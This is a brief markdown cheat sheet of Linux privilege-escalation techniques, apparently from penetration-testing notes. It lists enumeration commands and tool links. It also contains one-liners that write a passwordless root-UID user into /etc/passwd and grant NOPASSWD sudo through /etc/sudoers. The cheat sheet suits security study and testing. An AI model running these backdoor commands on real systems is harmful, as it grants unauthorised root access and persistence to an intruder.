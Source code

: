 # Privilege Escalation

## Linux
- `getcap -r / 2>/dev/null`<br>
- `find / -perm -u=s -type f 2>/dev/null`<br>
- `find -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`<br>
- `find / -writable 2>/dev/null | grep home | cut -d "/" -f 2,3 | sort -u`<br>
- `sudo -V` to check sudo version, which might be vulnerable.<br>
- `echo "vickie::0:0:System Administrator:/root/root:/bin/bash" >> /etc/passwd`<br>
- `echo "vickie ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`<br>
- `groups`<br>
    - `docker` (https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

https://gtfobins.github.io/<br>
<hr>

### Basic Linux enumeration
https://cyberlab.pacific.edu/resources/linux-enumeration-cheat-sheet

+ linpeas.sh<br>

**Get Privilege Escalation vectors:**<br>
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS<br>
- LinEnum: https://github.com/rebootuser/LinEnum<br>
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester<br>
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration<br>
- Linux Priv Checker: https://github.com/linted/linuxprivchecker<br>

## Windows
